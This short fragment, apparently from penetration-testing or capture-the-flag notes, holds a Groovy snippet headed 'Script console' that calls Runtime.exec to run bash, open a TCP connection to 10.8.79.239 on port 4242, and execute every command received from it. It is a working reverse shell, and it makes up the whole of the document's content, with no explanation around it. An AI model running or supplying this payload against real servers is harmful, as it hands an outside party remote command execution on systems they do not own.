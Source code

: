## Script console
	Runtime r = Runtime.getRuntime();
	p = r.exec(['/bin/bash', '-c', 'exec 5<>/dev/tcp/10.8.79.239/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'] as String[]);
	p.waitFor();
